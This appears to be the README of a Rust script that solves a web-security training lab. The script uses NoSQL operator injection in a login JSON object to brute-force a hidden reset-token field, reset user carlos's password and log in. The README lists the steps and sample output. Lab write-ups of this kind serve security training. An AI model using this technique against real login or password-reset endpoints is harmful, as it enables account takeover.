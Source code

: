 ## Hack Steps

1. Fetch the forgot-password page
2. Extract the csrf token and session cookie
3. Make a forgot-password request for carlos
4. Inject an operator and payload into the login JSON object to determine the length of the unknown field name
5. Modify the payload to brute force the field name
6. Modify the payload to determine the length of the field value
7. Modify the payload to brute force the field value
8. Fetch the forgot-password page with the field name and its value as a query pararmeter
9. Extract the csrf token and session cookie
10. Make a reset password request for carlos
11. Login as carlos with the new password
12. Fetch the carlos profile

## Run Script

1. Change the URL of the lab
2. You may need to change the field number you extract depending on the lab setup. Either field 3 or field 4 should work
3. Start script
```
~$ cargo run
```

## Expected Output

```
⦗#⦘ Injection point: login JSON object
⦗1⦘ Fetching the forgot-password page.. OK
⦗2⦘ Extracting the csrf token and session cookie.. OK
⦗3⦘ Sending a reset password request for carlos.. OK
⦗4⦘ Determining the length of the 3rd field.. 
❯❯ Checking if length = 5 
❯❯ Checking if length = 9 
                ...........
❯❯ Checking if length = 11 [ Correct length: 11 ]
⦗5⦘ Brute force the field name.. 
❯❯ Checking if char at position 4 = c [ Correct: unloc ]
❯❯ Checking if char at position 7 = o [ Correct: unlockTo ]
                ...........
❯❯ Checking if char at position 10 = n [ Correct: unlockToken ]
⦗6⦘ Determining the length of the 3rd field value.. 
❯❯ Checking if length = 5 
❯❯ Checking if length = 9 
                ...........
❯❯ Checking if length = 11 [ Correct length: 11 ]
⦗7⦘ Brute force the field value.. 
❯❯ Checking if char at position 5 = e [ Correct: 326f5e ]
❯❯ Checking if char at position 9 = 0 [ Correct: 326f5e3852 ]
                ...........
❯❯ Checking if char at position 15 = 0 [ Correct: 326f5e38529aa000 ]
⦗8⦘ Fetching the forgot-password page with the field name and its value as a query pararmter.. OK
⦗9⦘ Extracting the csrf token and session cookie.. OK
⦗10⦘ Reseting carlos password to Hacked..OK
⦗11⦘ Logging in as the carlos.. OK
⦗12⦘ Fetching the carlos profile.. OK
🗹 The lab should be marked now as solved
```
